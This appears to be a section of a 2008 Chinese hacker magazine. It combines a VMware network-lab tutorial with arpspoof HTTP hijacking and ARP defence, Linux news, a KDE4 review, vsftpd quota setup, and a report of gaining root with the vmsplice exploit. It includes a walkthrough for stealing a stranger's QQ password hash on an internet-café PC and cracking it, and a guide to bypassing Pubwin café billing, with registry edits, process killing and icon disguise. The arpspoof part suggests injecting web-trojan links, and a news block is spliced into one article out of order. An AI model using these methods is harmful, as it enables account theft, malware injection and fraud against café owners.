可以看到，没有关于192.168.229.0这个网段的规则，下面我们只要加入一个规则，告诉计算机访问192.168.229.0这个网络应该走哪个门，也就是哪个网关就可以了。在CMD下输入：`route -p add 192.168.229.0 mask 255.255.255.0 192.168.48.1`，这条命令就是告诉计算机要到192.168.229.0这个网络需要从192.168.48.1这个网关出去。我们再次PING一下Server，如图23，可以看到我们已经可以PING通Server了。

至此，我们的虚拟网络基本上全部搭建完毕。为了让大家能够更清楚地了解网络，我们再次把网络拓扑详细地列出来，如果对整个网络设置还不是很清楚的朋友，通过图24应该可以很好地理解了，如图24。

## 四、建立更经济的网络——用RouterOS虚拟路由

上面虽然建成了基本的网络，但是代价太大了，对于上面那个方案，最少需要1G内存才能拿下来。可不是所有的人都能够有这么大的内存，即使是Win2000，每台100M，加上本机的系统缓存，也至少需要400M的内存。如果你只有一根256M的内存条，那是否就不能搭建这么美妙的实验室了呢？当然可以，这里就要用到大名鼎鼎的RouterOS虚拟路由软件了。微软毕竟不是专业的路由软件生产商，做出来的东西稍微能够勉强应付一下小型的网络，而且代价也太大了。而我们可爱的RouterOS一般只需要64M内存，CPU占用率也很小，特别是对于我们这么小型的局域网来说，32M内存其实就已经足够。如果我们再使用Win2000系统，把内存再挤一挤（大概80M左右），在256M的机器上跑也是可行的！不过由于方便的关系，笔者还是用Win2003进行演示，我们开始吧！

新建一个虚拟机，过程与建立上面那个Router相似，只是系统类型选择“Other”中的“Other”，将名称改为RouterOS，完成后将内存改为32M，移除不用的声卡与软驱，将光驱设为虚拟镜像，如图25。添加两个网卡Vmnet1与Vmnet2。

首先下载一个RouterOS破解版的光盘镜像文件，也就是ISO。小巧玲珑，只有12.5M。一切就绪之后，就开始运行吧，短暂的等待之后来到了安装界面，如图26。

这里是选择你要安装的组件，每个组件都有不同的功能，我们这里全装上，先按键盘上的 **a** 再按 **i** 开始安装。此时会提示你硬盘上所有的数据都会被清除，是否同意，输入 **y** 回车。几分钟后RouterOS就装好了，下面我们就开始具体设置了。

首先利用默认账号 **admin**，密码为空进入。先更改密码，输入 **pass** 回车。接着输入旧密码，此时密码为空，我们回车即可，接着输入新密码，确认。

改好密码后我们接着进入interface（网络接口）模块查看网卡与修改网卡名称。依次输入：**int** 回车，再输入 **print** 查看网卡情况，如图27。

可以看到已经可以识别出两张网卡了，我们现在给两张网卡改名，输入：**set 0 name=lan1;set 1 name=lan2;** 回车后输入 **print**，查看更改情况，可以看到网卡已经被改名，如图28。

下面我们输入 **/** 回到根选项，再输入 **ip add**，来到IP地址选项，分别给两个网卡添加IP，输入以下的命令：**add address 192.168.48.1/24 interface=lan1; add address 192.168.229.1/24 interface=lan2**，这样就给两个网卡分别添加了两个IP地址，输入 **print** 查看，如图29。

最后我们输入 **/** 回到根选项，输入 **sys reboot** 重启一下，我们的RouterOS也就设置完毕了。我们的经济型网络实验室也就建成了。

## 五、在网络实验室进行实验

在建立好网络实验室后，我们当然要进行一些具体的实验来测试这个网络实验室到底怎么样，到底能不能模拟真实的网络环境，下面我们就用具体的实验——HTTP会话劫持与ARP防御来进行测试。

这里用最近比较流行的 arpspoof 3.1 来做演示，我们首先要在Server上搭建一个IIS服务器，在Server中点“开始”——“管理你的服务器”，打开服务器角色添加界面，点击“添加或删除角色”，如图30。

选定“自定义配置”后点下一步，双击“应用程序服务器”进行添加，如图31，完成后IIS就装好了。

将网站主目录设为 C:\WEB，然后在C盘下创建一个目录WEB，在里面新建一个 index.htm，将文件内容简单地写为“Cody 是天才！”，然后我们在Client上访问一下，如图32。

我们成功地访问到了Server，接下来在本机的CMD下进入 arpspoof 所在的目录输入 **arpspoof -l**，记下网卡名称为 VMware Virtual Ethernet Adapter 的编号，我这里为0。接着再输入命令：**arpspoof /n** 生成一个配置文件 job.txt，将这个文件内容改为：

```text
Cody
小高
天才
talent
```

意思就是将 Cody 替换为小高，天才替换为 talent，当然这个在实际运用的时候就可以靠大家自由发挥了，可以将大部分网页都有的关键字（比如 `<head>`）替换为网马的地址。

改好后，我们在CMD输入：**arpspoof 192.168.48.1 192.168.48.80 80 0 1 /r job.txt**。这里就不详细解释命令的意思了，大家可以自己去Google一下，接着来到Client，再访问Server，如图33。

> 导语：
> 曾经的宠儿，到了Linux的春天了，不仅仅是在桌面市场，在服务器市场，Linux也将再掀起新的浪潮。因为原先Linux主要占领着高端服务器，而一般的主机都是Windows。现如今，随着Linux的普及，很多中低端服务器都转向Linux阵营，让人惊诧，也让人担忧：以后小黑们还怎么玩呢！

## 1、Linux系统3G手机将面世 售价将低于100美元

据国外媒体报道，恩智浦半导体公司（前身为飞利浦半导体公司）拟与Linux开发公司Purple Labs合作推出100美元以下的Linux系统3G手机。目前这款手机的样机已送至面向发展中国家市场的手机设计公司供参考。

恩智浦半导体公司表示，带Linux操作系统的手机可以加快3G市场的发展。鉴于目前Linux手机主要面向高端市场，所以公司决定推出这种名为“Purple Magic”的低价手机，帮助OEM（原始设备生产商）和ODM（原始设计商）进入日益发展壮大的3G手机市场。

这款手机以恩智浦3G版的Nexperia Cellular System Solution 7210为基础开发，并可优化运行Purple Labs的Linux操作系统。

恩智浦半导体公司的高级副总裁兼手机业务总经理丹·拉比诺维茨（Dan Rabinovitsj）评论说：“恩智浦相信，Linux是下一代手机创新的基石。我们应共同努力，将开源技术所带来的好处带入大众市场。”

Purple Magic手机将在2月11日开幕的西班牙巴塞罗那世界手机大会上展示。

> **风飘点评：**
> 不知道这个比喻恰不恰当，3G就是手机中的IPv6。面对这次“升级”，各个厂商早已经行动起来了。相信不久的将来，价钱更便宜、性能更优异的Linux 3G手机就会拿在你的手上。现在已经不是过去坐在板凳上幻想着也打电话的时代了，相信生活的改变，就在像这样一点一滴的努力之间。

## 2、DNS系统25岁了

国际互联网的域名系统（Domain Name System，DNS）已经诞生25周年，如果没有这一发明，人们对互联网地址的表达将非常困难，也就没有现在丰富多彩的网上内容。

1983年，来自牛津网络学院的首席科学家Paul Mockapetris描述了他的设想，一开始它只是一个小项目，一群科学家将它们慢慢变成了现实。

当时很少有人能想到DNS能发展到今天这样庞大，以至于成为了Internet的技术结构。

只要你连接上互联网，DNS每天都在和我们打交道，它用简便易记的方法为枯燥难记的IP地址制定了命名规则。

> **风飘点评：**
> 我个人一直认为，DNS和WWW是网络普及的重要因素，一个提供你的最爱，一个告诉你怎样容易地找到它。毕竟网络不是科研，而是要切切实实深入到大众的生活中去。人们一直努力的，就是让你的生活变得更简单，DNS不仅仅是一个技术，而是一个标志。

## 3、Linspire发布Linux自定义服务

Linspire最近发布了一项定制Linux系统服务。这项服务可以帮助那些希望缩短进入市场时间、降低Linux部署消耗的企业。

该公司的CEO称，他们的客户经常对他们提出各种定制要求，让自己的Linux看起来和用起来有不一样的感觉。于是Linspire觉得这是个机会，就推出了自定义Linux服务。

客户可以快速安装一个干净的Debian或Ubuntu系统，然后Linspire根据客户的具体需求，将各种组件组装上去。

这样带来的好处是，客户能迅速对市场做出反应，能够为不同的消费者提供不同的使用体验。这是以往任何开发模式所无法得到的。

> **风飘点评：**
> Linux的一个特点就是自由灵活，Linspire正是利用了这一点，每一个用户都可以拥有自己个性化的系统。做一个大胆的预言，这种模式将会对Linux的发展起到巨大的推动作用。Linspire为我们走出了第一步。

我标记出来的地方表明程序捕捉到了一个需要转换的数据包，找到了要替换的内容，应用了规则将指定内容替换，可以看到页面已经更改。我们成功地进行了HTTP协议的会话劫持。

下面演示如何进行防御，关闭ARPSPOOF后，我们先在本机的浏览器下输入：192.168.48.1，进入RouterOS为我们提供的客户端界面，下载可视化的配置修改工具Winbox，下载好后进行连接，选择左边的“IP”——“ARP”选项来到关于ARP的设置，右键单击IP为192.168.48.80的选项，再选择Make static进行MAC静态绑定，如图34。

最后再回到Client上，用命令 `arp -s` 将网关IP与MAC地址也静态绑定，我们再启动Arpspoof输入刚才的命令，再到Client进行访问，如图35。

可以看到页面显示正常了，我们成功地阻止了ARP欺骗。

## 六、结语

整个关于搭建网络实验室的过程也就进行完了，在慢慢熟悉了整个过程与环境后，我们当然可以进行更复杂的实验，如IP欺骗或病毒的测试，希望这篇文章能够让大家在以后的学习中更加方便地获得更多的东西。如果大家有更好的方法，也欢迎大家来EST（www.eviloctal.com）与我交流。

【文章中涉及到的工具RouterOS、arpspoof和Winbox在光盘中有收录】

> **编辑点评：**
> 十分实用的一篇文章。虽然这篇文章只模拟了网络中的路由器、客户机和服务器，但通过作者的“抛砖引玉”，我们可以在VMware平台上结合OS和相关软件模拟几乎任何网络设备，当然硬件配置也要能跟得上才可以。VMware自诞生以来一直作为试验平台，没有令人失望的是，网络模拟方面它也能提供给用户最方便和完善的支持。我们学习技术一定要理论联系实际，行动上的强者才是真正的牛人！

## Ubuntu 桌面环境体验 KDE4 篇

- 从本文您可以学到：
- 认识 KDE4
- 学会如何在 Ubuntu 下体验 KDE4

3月份前的中国大地刚刚经历了一个不平凡的春节，不仅仅是南方的大雪，也不仅仅是艳照门事件。整个开源界在2008年之初也迎来了很多重要的事情，比如Nokia宣布收购了著名开源跨平台开发工具Qt的开发商Trolltech，比如54岁的开源之父Richard Stallman竟然开始征婚了，比如KDE4发布了……

KDE和GNOME两大桌面环境系统基本上统治了整个Linux的桌面，它们可以说是Linux桌面系统的两大王者。KDE是基于Qt编写的，而GNOME是基于GTK+编写的；Qt组件用的是C++，可GTK+用的是C，这两个家伙之间的争斗已经持续了很多年，毕竟有竞争才会有进步。不过今年在Nokia买入Trolltech之后这种情况可能会有所转变，因为Nokia同时也赞助着GNOME基金会，它的好几款手持设备都是基于GNOME开发的，所以GNOME和KDE的未来说不定会握手言和。

在先前的文章里面也有所提到，Ubuntu的默认发行版用的是桌面GNOME，其衍生版本里面Kubuntu用的是KDE，Xubuntu用的是XFCE，还有最新出来的Fluxbuntu用的是fluxbox，以及最新出炉的OpenGEU（曾经称为Geubuntu）用的是e17。形形色色的衍生版提供了不同的默认桌面以供不同的用户、不同配置的电脑来使用，但是大多数用户还是会选用Ubuntu的默认版本，因为很多Ubuntu用户以为GNOME就是Ubuntu，就是Linux桌面，这是完全错误的思想。

笔者本人也使用的是GNOME桌面环境，这次KDE4发布，不仅摩拳擦掌想迫不及待地试用一番，毕竟GNOME用多了会审美疲劳，如果试用感觉还可以的话说不定就赖着不走了。KDE4号称在内存和处理器资源至少256MB/1GHz时候仍可以流畅运行；浏览网页、聊天，甚至是开桌面特效都一切正常。要知道256MB的内存运行个XP都嫌慢，现在的主流机器配置的都是1G甚至2G或者4G的内存了。废话不多了，首先看看在装了GNOME的机器上怎么安装KDE4。

**第一种情况**，如果你安装的是7.04或者以下版本的Ubuntu，建议升级至7.10，因为只有7.10才有预先编译好的KDE4二进制包，当然如果不想升级也可以，自己编译，这不属于本文的范围，略过。对于7.10的用户，因为官方的源内没有KDE4的支持，所以要安装KDE4稍微有点麻烦。

```text
1、打开终端，编辑 /etc/apt/sources.list 文件：sudo gedit /etc/apt/sources.list

然后，添加下列内容：
deb http://ppa.launchpad.net/kubuntu-members-kde4/ubuntu gutsy main

2、更新源：sudo apt-get update
3、安装 KDE4 和中文包：sudo apt-get install kde4-core kde-l10n-zhcn
```

```text
WARNING: The following packages cannot be authenticated!
Install these packages without verification [y/N]? y
```

**第二种情况**，像笔者一样直接升级到8.04版，这是一个不稳定的版本，可能在某次升级的时候出现这样或者那样的问题，但是对于喜欢尝鲜的朋友一定不会错过，因为里面的软件是最新的，像8.04的KDE4就是最新版本的4.0.1，而不是7.10的4.0版本。安装方法还是如上，省去了第一步添加软件源。

进入KDE4也很简单，在登录界面，选择KDE4这个会话就能进入KDE4这个桌面环境，如图1。

KDE4与GNOME相比，更接近于Windows使用者，下面是一条任务栏，最左边是K菜单，右上角有个类似Vista的添加部件的图标，可以在桌面上添加形形色色的小组件。

KDE4默认采用的是单击激活图标或者应用程序，习惯的用户可能觉得很贴切，但是不习惯的可能会点错或者多点，可以在“K菜单—应用程序—设置—系统设置”里面的“键盘和鼠标”内改成习惯的双击。不过话说回来，单击的效率比较高，而且更保护鼠标。

KDE4的K菜单也和以往的有所不同，它来源于SUSE的KDE桌面程序Kickoff，如图2，点击右下角可以看到。这个菜单共由五个部分组成：收藏夹、应用程序、计算机、最近使用和离开。对于经常使用的应用程序可以右键把其添加到收藏夹。K菜单的二级菜单也和普通的菜单有所不同，不是那种展开式的，而是抽屉式的，大小固定的，一级一级往下。这也要稍微适应一下哦。不过这个菜单总体来说还是很不错的，非常简洁明了，很容易上手，只要把经常使用的程序放在收藏夹内一般就OK了。

KDE4的桌面非常诱人，采用了最新的Plasma技术，它是KDE4中一个关键技术，其目的在于提供一个动态的桌面。你可以在桌面上动态缩放你的图标，因为KDE4采用的是矢量图标，所以放大也不会失真。你也可以在桌面上添加各种各样的小部件（类似Vista），不过因为KDE4才刚刚出来不久，所以可能提供的小组件。## KDE4体验更丰富

KDE4的小组件不是很丰富，如图3。

KDE4的控制面板就是前面修改鼠标单击为双击的“系统设置”，如图4。

这里大家最关心的可能就是“字体”和“桌面”了，在“字体”里面可以修改默认的KDE字体显示，在“桌面”里面可以设置KDE4自带的动态桌面效果，如图5。在“全部效果”tab页面上可以打开想要打开的动态桌面选项。虽然KDE4的桌面效果没有compiz-fusion那样子多，但是对于一个桌面自带的动态效果而言已经是很不错了，毕竟GNOME根本没有自带的桌面特效。这里介绍几个特效，比如放大镜特效，按meta和=键，可以进行无级放大，对于某些视力不好，或者为了看清楚某些图片的细节有着不错的辅助作用；还有将鼠标移到左上角可以对窗口进行排序，方便用户选取所需的窗口，如图6，这个在compiz-fusion里面也有；还有其他很多功能都非常不错，这里不一一介绍了。


接着我们看一下KDE4新的文件管理器Dolphin，在这之前KDE默认的文件管理器一直是Konqueror，分别看一下这两者在KDE4下面的截图，如图7。

Konqueror作为一个文件管理器实在是有点小材大用了，它不仅是文件管理器而且是一个Web浏览器，所以在KDE4里面它的主要任务就是一个网页浏览器。Dolphin则后来居上取代了Konqueror的文件管理器的地位，因为它的简洁迅速。Dolphin有很多浏览模式，有图标、细节、多列、预览、拆分模式，能内嵌终端，功能强大，是我用到目前最为满意的一个文件管理器（如图8），相信使用的人一定会喜欢上Dolphin的。


KDE4引入了Okular作为它的通用文档阅读器，如图9，其支持常见的PDF、CHM、PS、TIFF、JPG等等几十种文档，特别要提的是它内置对PDF的批注功能，这点对拥有很多PDF却苦于无法编辑的朋友来说真是非常的妙。它打开文档的速度也很快。

最后再说说KOffice，GNOME一直没有自己的办公软件，但是KDE很早就有了自己的办公软件，所以从重量级别来说，GNOME还略逊一筹。KDE4所搭配的KOffice版本是2.0，现在还是alpha版本。Ubuntu 8.04到笔者收稿之日自带的KOffice是2.0 alpha6的版本，没有中文版。它包含了KWord（文字处理）、KSpread（电子表格）、KPresenter（幻灯片）、Kexi（数据库）、Kivio（类似Visio的绘图）、Karbon14（矢量绘图软件）、Krita（绘图软件）、KPlato（计划任务）、KChart（绘制图表）、KFormula（写公式）……更多的应用程序还在不断地加入KOffice，单从功能上来讲，KOffice与OpenOffice相比也毫不逊色。这边不截图了，希望大家在用KDE4的同时来试用这些程序。

KDE4上的Qt程序还有很多，号称Linux上最优秀的音频播放器Amarok2也在向KDE4移植着。从KDE3升级到KDE4不仅仅是简单版本的升级，更是构架的升级，很多KDE3的程序都被重写，不过这些都是值得的，就像gtk+1向gtk+2移植一样，让人期待。


KDE4不仅仅包含本文所述的一些内容，因为KDE实在是个浩瀚的大海，本文只是沧海一粟，经过几天的试用，我也决定留下KDE4，将它与GNOME共存，想用哪个桌面就用哪个，用电脑如此，不亦乐乎！

> **编辑点评：**  
> 以前杂志的新闻就有关于KDE4出世的消息，的确，KDE4是值得我们兴奋的。另外，了解KDE和GNOME也有助于你了解Linux的架构，对以后的学习有益无害。小菜们，快参照我们的文章，一起来体验一下KDE4吧。

## Unix系统安全——文件服务器资源调试

■ evilangel

- 从本文您可以学到：
- 1. 怎样限制文件服务器的连接速率
- 2. 了解和学会配置磁盘配额

我们说一台服务器，最宝贵的东西是什么？是资源。资源对于企业服务群、商业服务群来说是很宝贵的，比如CPU资源、带宽资源、磁盘资源。这期我将和大家来讨论一下Unix系统的FTP服务器对用户使用资源控制。

**环境说明：** 用RHEL4操作系统来实验，使用本地计算机远程登录服务器的SSH服务（22端口）来演示，FTP服务器软件使用vsftpd程序。

### 限制速率

vsftpd服务的配置文件默认没有对本地用户及匿名用户速率的限制，每个用户都可以“全速上传”。比如服务器网络接口100M，客户机100M网卡，用户客户机上传文件，如图1。假设忽略不计网络节点设备，我们看下面，2600多K的速度。如果服务器高峰时，就有可能出现瓶颈，就可能有些重要的用户使用不了服务器。一般我们会用个保守的速率来让服务器提供服务，目的是让服务器可以持续地工作。vsftpd提供了一个参数local_max_rate，我将参数“local_max_rate”设置为100000（单位k），就是将速度限制在100k，这语句可以限制服务器的上传速度。再使用客户机上传同样的文件，如图2，同样的文件，限速的前后有很大的差别。

在一般的企业里，管理层一般不明白什么叫服务质量，所以说您和他们讲是没有用的。当管理人员想用服务器的时候，服务器拒绝服务，作为网管的你就麻烦了！轻的批评一顿，重则说你技术不行，网管苦啊！我们宁可让普通的职员在服务器忙碌的时候不提供他们服务，也不能不提供管理层服务。


作为服务质量，我们一般是在服务器接入层的高层交换机或路由器来做服务质量（QoS）。在Unix中的vsftpd服务群一般只能是持续、稳定的小流量来提供全部用户服务。举个例子，设置max_per_ip也设置成1，也就是说每IP的最大连接数是1，避免一个用户多占用服务器进程。假设该服务器要提供1000人的服务，峰值每秒并发一般为200，服务5分钟在线最多800 IP左右，那么“max_clients”（FTP的最大连接数）值设置800是比较科学的，建议设置max_per_ip值来限制每IP的连接数。而将max_clients注释掉，默认vsftpd配置文件内就没有这个选项，当然没有选项就是值为“0”，不限制。

假设服务器没有能力提供以上的服务，为了保证持续、稳定，建议将idle_session_timeout（会话空闲几秒后服务器主动断开连接）值改小，以保证服务器有多余的进程来处理更多的请求。这些也是理论值，还要看你的企业性质、业务繁忙程度和网络硬件及服务器的性能有关，符合你的实际情况的配置才是最好的配置，这就要求你自己多多地测试啦！

### 磁盘资源限制

大多情况下，服务器磁盘空间用户是无法无限制使用的。比如空间会给一些用户分配一定额度的空间；企业里的文件服务器同样也会给某些部门、职员来分配适当的空间使用。在Unix系统作磁盘配额方法稍微相似，首先你要确保您的系统内核支持磁盘配额，并且，需要在/etc/fstab文件的某个分区上开启了磁盘配额。用mount命令查看当前系统是否支持磁盘配额，如图3，我这里共有三个分区支持磁盘配额。


> **小知识：** 在BSD（FreeBSD、NetBSD、OpenBSD等）系统中需要在/etc/fstab文件中添加userquota、groupquota，让该分区支持用户磁盘配额（userquota）和组磁盘配额（groupquota），而Linux系统中fstab文件中是添加usrquota、grpquota。注意，字母不要写错了，它们是不同的。

生成磁盘配额配置文件：Linux用quotacheck -cvug [磁盘分区]生成磁盘配额的配置文件，而NetBSD要用quotacheck -vugq [磁盘分区]，比如：“quotacheck -vugq /dev/sd0g”来生成磁盘配额的配置文件，而FreeBSD要用quotacheck -vug [磁盘分区]。这里的[磁盘分区]指的是你用mount查看支持磁盘配额才行。不同的系统有一些小的不同，使用时看一下man。

```bash
quotacheck -vugq /dev/sd0g
quotaon -a
useradd -s /bin/bash -d /var/virtual/amy amy
edquota amy
```

一般支持磁盘配额要重新启动计算机才能生效，但是用“quotaon -a”命令可以在不重启的时候激活磁盘配额。我们用“useradd -s /bin/bash -d /var/virtual/amy amy”来添加一个新用户amy，对她进行磁盘配额的实验。该用户属于virtual组，而用户目录是/var/virtual/amy，因为这是一块独立的磁盘（/dev/sdb1）挂载到该目录的。

运行edquota amy，来编辑用户amy磁盘配额。运行命令后即可进入磁盘配额的界面，你看着配置文件会有点乱，可以删除中间多余的空格，如图4。当前系统共有三个分区支持磁盘配额，我们只用/dev/sdb1这块磁盘做实验。图4中的blocks是指文件块数，可以简单地理解是空间的大小，而inodes是结点的个数，也就是文件数。

无论是blocks还是inodes都有软限制（soft）和硬限制（hard）的区分。软限制是达到配额的时候将提示用户，如果7天后用户没有释放空间，用户就无法再写入文件了；硬限制是用户在什么情况下都不能超过的限额。我将软限制设成1024（1M），而硬限制设成2048（2M），设置得小一点容易看到效果。


为了方便抓图，用SSH服务切换成amy用户，无论用户使用什么服务来使用磁盘上的空间，磁盘配额都有效。用“dd if=/dev/zero of=file1 bs=1k count=1024”命令从/dev/zero设备里读出数据，每次读出1k，一共读出1024k放到文件file1里。用“quota”命令查看磁盘使用情况，我们看到1080后面有个星号，说明该用户已经超出配额的软限制，如果过了7天（7days），该用户将无法向磁盘写入数据，如图5。注意：1080是1024+56得来的数，56k是新建用户时候的登录配置文件和用户自己的主目录。

当然这时该用户还是可以向磁盘写入数据，因为该用户使用空间还没有达到硬限制。我们再写入一个文件file2，dd if=/dev/zero of=file2 bs=1k count=1024，这时出现如图6的结果。

我们看，写入file2分明是1024k，怎么大小会不同呢？这是因为，这个时候已经超过了该用户使用的上限（硬限制）了。我们一般用这种方法来限制用户对服务器磁盘资源的使用。当然，我们不仅可以单独对用户限制，而且可以对组进行限制，比如用“edquota -g groupname”。

### 后续

读者在自己作实验时候可能发现一个小小的问题，我们先把前面做实验的文件删除。用“echo "" > file1.txt”写一个空文件到自己目录下，我们查看文件的大小只有1k，而用quota查看自己磁盘配额却用了8k，如图7。图7中的两次运行quota的结果显示1k的文件却占用了8k的空间，为什么呢？这和运行“tune2fs -l [磁盘分区]”显示的inode count、Block count的比例及磁盘空间的比例有关，而且也和磁盘分区格式化过程中默认的参数有关。由于篇幅有限，不能过多解释，想了解更多，您只能期待以后的《黑客手册》了。

今天我们介绍了UNIX系统的FTP服务器限制普通用户的性能及资源，在这个方面对一台服务器性能有很大关系，您需要按自己的实际情况来决定，否则会出现瓶颈或浪费。理论的数值只能给读者一个建议，而让服务器适合自己的需求，就要读者进行大量的尝试。

> **编辑点评：**  
> 上一期的文章里介绍了有关文件服务器的安全设置，再加上今天介绍的资源调试，相信应该可以让你架设出一个够用的文件服务器了。当然关于文件服务器的知识还有很多，并且vsftpd在功能方面还是有些欠缺的，如果你想更深刻地了解一下，Proftpd也是个不错的选择。

## 穿透新版红帽Selinux强制安全设置

从本文你可以了解到：

- Linux vmsplice Local Root Exploit溢出程序使用的实际效果

正当大家还沉浸在春节的气息中时，一伙强人将几篇代码贴到了网上，几分钟后马上引起了关注。这就是“Linux vmsplice Local Root Exploit溢出程序”。

该程序号称内核在2.6.17-2.6.24.1之间的所有Linux计算机都可能被溢出并获取Root权限，目前已经在Redhat、CentOS、Debian、Ubuntu四款操作系统上测试通过了。

看了看介绍，感觉有点神乎其神的，真有那么厉害？呵呵，我决定拿公司新买的一台HP服务器试试，该服务器安装的是新出的红帽子5.0企业版，安装有Snort入侵检测工具，Selinux安全选项已经设为强制，其他各种防护措施也都做了，主要提供FTP和MySQL数据库服务。

一边是经过优化的红帽子5.0，一边是号称穿透能力极强的Linux vmsplice溢出程序，谁更厉害呢？

我首先用一个普通用户的账号“nohack”登录了服务器，然后编译溢出程序，执行……很快，我变成Root了……无语。该程序穿透已启用Selinux安全设置的Redhat 5.0，居然连一眨眼的工夫都不到，如图1、图2所示。


不过值得注意的是，2.6.17以下版本的Linux系统不在此攻击范围内，看来系统这东西，也不是旧的肯定没新的好啊。

> 【代码程序请见于光盘】


> **编辑点评：**  
> 确实，有时候最新的不一定就是最实用的！建议大家遇到最新版本的系统时可以采取一定时间的观望考察，在觉得自己确实需要时才去使用它。

## MM下偷记QQ后发生的故事

从本文你可以学到：

- 1. 获取本机已启动QQ账户的密码
- 2. hash转换及MD5破解

快过年了，网吧里面的人那是相当的多，等了好久才等到了一台机子，快速地输入账号密码，登录上去。却看到一个QQ挂在上面。哦，原来是前一个会员走时没有关掉主机，而老板看见人多也没有重启。呵呵，这回有的玩了！既然她的QQ没关掉，那我们就来搞到她的密码。

工欲善其事，必先利其器。我们用到的工具有2个，一个是Norton Process Viewer（一个很好用的进程查看器），另一个是QQ hash值转化工具。我们打开Norton Process Viewer，如图1。

看见QQ的进程了吗？呵呵，接下来就是关键了，我们点击QQ上的“菜单”→“好友与资料”→“更新好友”（如果机器上安装了TM也可以在菜单中选择“切换到TM”），如图2。

单击后会出来个小框显示“更新好友会更新当前号码的好友信息，退出并重新登录，是否继续”，当然选“是”了，这时QQ会退出并重新登录。登录后我们回到Process Viewer，右键点击QQ进程，选择“启动信息”，就会得到QQ的启动信息，如图3。

在命令行里有“/SessionType:3 /START QQUIN:16963269 PWDHASH:SFJEsIvmi6s+OMbUKI3bA== /STAT:10 /EMB_HWND:0 /NOAUTOSCAN”，如图4。这其中“QQUIN:16963269”就是QQ号码，“PWDHASH:SFJEsIvmi6s+OMbUKI3bA==”中PWDHASH后为QQ密码的Hash值。得到Hash值我们再用QQ hash值转化这个小工具，把它转换成MD5的值，如图5、图6。

如果小黑们觉得这样有些麻烦，我们可以利用“QQ hash提取工具”，这个小软件可以直接得到QQ的hash值并把它转换成MD5的值。更新好友，等到QQ重启以后运行QQ hash提取工具，就可以得到QQ账号和密码MD5值了。

得到MD5的值就好办了，我们去在线破解网站破解下，如：www.cmd5.com，www.xmd5.org等，如图7。

如果在线破解搞不出来，我们可以用本地破解的软件来破解——“梦断注册码MD5密码破解器”，如图8。

先把得到的32位MD5值填入“破解单个密文”下方的“字符设置”，我们选择破解


## 网霸黑手册 2008.03→【泡泡吧】

□ SDS

## 防战网吧之与 PUBWIN2007 的邂逅

- 从本文你可以学到：
- 利用注册表文件解除限制
- 破解 Pubwin 2007
- 利用 FlashGet 伪装 Pubwin 2007

网吧不知道啥时候更新的，都换上了清一色的 Pubwin 2007。在网上看了很多关于破解该计费系统的文章，感觉能用的没有几个，于是自己操起工具进行了一次探索，写出来与大家一起分享！

## 一、排除拦路狗

程序做了限制，将“开始”中的“运行”等很多项目隐藏了，对我们操作计算机带来很多不便。先把这些限制去掉吧，要突破此类限制，我一直习惯使用注册表文件。将如下代码保存为 huifu.reg。

```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
"NoRecentDocsMenu"=dword:00000000
"NoRecentDocsHistory"=dword:00000000
"ClearRecentDocsOnExit"=dword:00000000
"NoFavoritesMenu"=dword:00000000
"NoSMHelp"=dword:00000000
"NoFind"=dword:00000000
"NoRun"=dword:00000000
"StartMenuLogOff"=dword:00000001
"NoClose"=dword:00000000
"NoSetFolders"=dword:00000000
"NoSetTaskbar"=dword:00000000
"NoFolderOptions"=dword:00000000
"NoWindowsUpdate"=dword:00000000
"NoActiveDesktopChanges"=dword:00000000
```

然后，双击导入注册表就可以突破许多的限制了。既然解除掉了限制，那么下面看我们怎么来慢慢实现免费……（小编：Windows 98 请将第一行换为“REGEDIT4”）

## 二、管理员密码需要这样找

首先运行“风云 NT 自动登录器”，如图 1，程序会自动地把系统自动登录的账户和密码查出来。然后我们通过星号密码查看器找出密码，网上星号密码查看器一找一大把，我使用的是 PeekPassword，这种找管理员的方法可以让我们丢弃 FindPass、Advanced Password Recovery 等工具。（小编：可以使用“精锐网吧辅助工具”直接读出明文）原理很简单，主要是鉴于网吧客户端机器设置了自动登录！找出密码后备用，继续看下面的操作。


解密密码的强度，可以选择数字、小写字母、大写字母等，如图 9。当然我们也可以生成一个强壮的密码字典进行暴力破解，点击“开始”就可以开始破解了。接下来就是漫长的等待了，当然还需要不错的运气＋非常好的人品……

> 在这里我要提醒大家，在网吧里我们一定要注意信息安全，下机的时候，不管有没有人等着，我们一定养成好的习惯，随手按下重启键，这样才能保证自己的“切身利益”不受损害。

> 小编：看到没！又一个 MM 可能要哭泣了。咱黑手读者可别做这种事咯～研究下可以～别伤害可爱的 MM 哦＾＿＾

## 三、轻松结束 Pubwin 2007 进程

每当我们结束 Pubwin 2007 进程，系统就会重新启动，并要求输入原来登录的卡号和密码，这两个进程其实可以用系统自带的 NTSD 命令进行结束。我朋友发给我的“克星之王”就是利用了这个原理。首先运行“克星之王”，程序会提示你选择服务种类，如图 2 所示。


我们选择“网吧破解”，单击“确定”后就可以进入到如图 3 的界面，使用“第一式”就可以干掉 PubwinEP 的进程，这时候系统会自动进行注销，然后输入我们第一步中找出的管理员密码和账户就可以破解成功了，这样当我们上网到时间后，就可以实现免费上网了。机器注销后，我们再次运行“克星之王”，然后选择第三个服务“超强功能”，进入到如图 4 的界面中，我们单击“查询限制”，然后根据所查询的限制有针对性地进行选择，就可以进一步突破限制！该工具集合多种功能，是目前网络市场上我发现的最好的网吧破解工具，绝对是网吧一族必备利器之一。


## 四、进一步实现伪装

该步中，有一定的局限性，因为我这里的网吧安装有 FlashGet，所以我就把这程序的图标修改了。大家在使用的时候，可以根据自己的实际情况修改成别的在系统托盘中的软件，或者下载安装 FlashGet！

首先我们要提取 PubwinEP 的图标，使用 ICO 提取器所获取的图标并不完美，所以这里向大家推荐“挡龙 ICO 提取器”！运行软件后单击“选择要提取图标的 EXE 文件”，选择 `C:\Program Files\Hintsoft\PubwinClient\PubwinClient.exe`，单击“打开”后，选择好图标保存的路径点“确定”，我们的图标就提取出来了。为了大家操作方便，我把提取好的图标也一起打包了！

然后我们就需要修改 FlashGet 的图标了，运行 Resource Hacker，打开 FlashGet.exe，依次定位到 Icon Group，将 128、129、200 的图标依次替换为上面我们提取好的图标文件，如图 5 所示！


为例，在 128 T 的 1033 上点右键，选择“替换资源”，然后找到我们提取的 PubwinEP 的图标，选择替换就可以了！

最后我们重新运行 FlashGet 就可以实现图标的伪装了，如图 6 所示！

方法只是我们挑战的一种技术，不建议去免费上网！


小编：本文技术不高，但是有一些自己的想法，比如利用 FlashGet 来伪装 Pubwin，这个想法不错，值得表扬。

> 站在前辈们的肩膀上……（顶部倾斜灰框引言，文字较模糊）

## Ajax 蠕虫初体验

- 从本文您可以学到：
